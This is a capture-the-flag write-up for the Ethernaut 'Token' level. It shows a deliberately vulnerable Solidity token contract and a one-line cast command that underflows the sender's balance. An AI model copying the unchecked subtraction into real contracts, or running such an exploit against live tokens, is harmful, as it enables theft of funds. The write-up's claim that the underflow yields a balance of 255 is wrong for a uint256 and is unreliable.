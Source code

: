 ## Token Level Outline

**Difficulty : 3/10**

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE)

## Solution

To pass this level, we need to send a transaction to cause an underflow resulting in a balance of 255. To do this we send 21 tokens from our address as the statement `balances[msg.sender] -= value` will cause an underflow due to our account only have 20 tokens worth of balance.

### Walkthrough
##### 1. Underflowing our balance
```console
cast send $LEVEL_ADDRESS "transfer(address _to, uint _value)" $LEVEL_ADDRESS 21 --private-key $PRIVATE_KEY
```

## Further Reading
Integer overflows and underflows can be prevented by using OpenZeppelin's [SafeMath library](https://docs.openzeppelin.com/contracts/2.x/api/math)
